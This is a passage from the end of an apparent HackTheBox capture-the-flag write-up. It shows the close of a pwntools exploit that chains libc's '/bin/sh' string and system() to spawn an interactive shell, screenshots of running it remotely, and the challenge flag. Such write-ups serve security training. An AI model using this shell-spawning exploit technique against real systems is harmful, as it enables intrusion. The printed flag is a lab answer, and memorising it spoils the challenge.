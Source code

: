 ```py
    next(libc.search(b'/bin/sh')),
    # ret,
    libc.sym['system']
])

get_inside_vuln()

sh.sendlineafter(b'?', p)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ebe5f276-453c-4a57-807a-55cbd0649a4a)


13. Let's send it remotely!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4530b91c-ad88-40c2-b022-1e4b9a77a580)


14. Got the flag!

## FLAG

```
HTB{th3_f_s4ys_f0rm4t_str1ng!!}
```

